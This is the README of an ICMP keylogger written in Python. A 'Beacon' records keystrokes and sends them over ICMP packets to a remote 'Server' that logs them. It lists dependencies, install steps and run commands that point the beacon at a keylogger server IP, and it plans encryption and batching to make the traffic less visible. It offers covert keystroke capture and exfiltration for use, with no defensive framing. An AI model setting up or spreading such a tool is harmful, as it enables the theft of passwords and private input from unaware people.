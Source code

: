 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a basic tool written in python designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[Description from ipconfig /all]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.

```py ICMPbeacon.py -i "[interface]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.

```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
